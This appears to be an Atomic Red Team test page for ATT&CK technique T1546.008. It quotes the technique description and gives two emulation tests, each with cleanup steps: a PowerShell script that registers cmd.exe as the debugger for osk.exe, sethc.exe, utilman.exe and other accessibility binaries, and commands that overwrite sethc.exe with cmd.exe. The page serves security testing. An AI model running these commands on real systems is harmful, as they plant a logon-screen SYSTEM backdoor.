 # T1546.008 - Accessibility Features
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/008)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by accessibility features. Windows contains accessibility features that may be launched with a key combination before a user has logged in (ex: when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.

Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed. The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)

Depending on the version of Windows, an adversary may take advantage of these features in different ways. Common methods used by adversaries include replacing accessibility feature binaries or pointers/references to these binaries in the Registry. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems, the binary must reside in <code>%systemdir%\</code>, and it must be protected by Windows File or Resource Protection (WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012) debugger method was likely discovered as a potential workaround because it does not require the corresponding accessibility feature binary to be replaced.

For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at the keyboard or when connected over [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)(Citation: Narrator Accessibility Abuse)

* On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code>
* Magnifier: <code>C:\Windows\System32\Magnify.exe</code>
* Narrator: <code>C:\Windows\System32\Narrator.exe</code>
* Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code>
* App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes](#atomic-test-1---attaches-command-prompt-as-a-debugger-to-a-list-of-target-processes)

- [Atomic Test #2 - Replace binary of sticky keys](#atomic-test-2---replace-binary-of-sticky-keys)


<br/>

## Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes
Attaches cmd.exe to a list of processes. Configure your own Input arguments to a different executable or list of executables.

Upon successful execution, powershell will modify the registry and swap osk.exe with cmd.exe.

**Supported Platforms:** Windows


**auto_generated_guid:** 3309f53e-b22b-4eb6-8fd2-a6cf58b355a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parent_list | Comma separated list of system binaries to which you want to attach each #{attached_process}. Default: "osk.exe" | String | osk.exe, sethc.exe, utilman.exe, magnify.exe, narrator.exe, DisplaySwitch.exe, atbroker.exe|
| attached_process | Full path to process to attach to target in #{parent_list}. Default: cmd.exe | Path | C:&#92;windows&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
```

#### Cleanup Commands:
```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f 2>&1 | Out-Null
}
```





<br/>
<br/>

## Atomic Test #2 - Replace binary of sticky keys
Replace sticky keys binary (sethc.exe) with cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 934e90cf-29ca-48b3-863c-411737ad44e3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc_backup.exe
takeown /F C:\Windows\System32\sethc.exe /A
icacls C:\Windows\System32\sethc.exe /grant Administrators:F /t
copy /Y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

#### Cleanup Commands:
```cmd
copy /Y C:\Windows\System32\sethc_backup.exe C:\Windows\System32\sethc.exe
```





<br/>
